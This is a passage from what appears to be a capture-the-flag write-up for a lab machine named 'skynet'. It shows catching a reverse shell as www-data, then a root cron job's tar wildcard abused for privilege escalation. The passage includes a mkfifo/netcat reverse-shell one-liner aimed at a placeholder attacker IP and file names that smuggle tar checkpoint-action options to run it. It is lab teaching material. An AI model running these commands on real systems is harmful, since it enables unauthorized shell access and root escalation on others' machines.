 ```highlight
└──╼ $sudo python3 -m http.server 80                                      
                                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                  
10.10.120.207 - - [24/Jan/2021 16:57:15] "GET /shell.php HTTP/1.0" 200 -  
```

On my netcat listener I get a response and got a shell as 'www-data'.

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [{{ATTACKIP}}] from (UNKNOWN) [10.10.120.207] 59292
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:57:15 up 22 min,  0 users,  load average: 0.00, 0.04, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$   
```

### Priv Esc

Looking at the file system there are two files backup.sh and backup.tgz both owned by root.

```highlight
drwxr-xr-x 2 root       root       4.0K Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson 4.0K Sep 17  2019 ..
-rwxr-xr-x 1 root       root         74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4.5M Jan 24 10:59 backup.tgz
```

The script is really simple, just creating a backup tar file or /var/www/html.

```highlight
$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

However because the tar command is using * which is a wild card and it appears the script is being run by root as a cron job we can exploit this to get a reverse shell. This [article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) explains it in detail.

I following the same steps in the article and set my port to 5555 as already have a shell on port 4444.

```highlight
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {{ATTACKIP}} 5555 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```
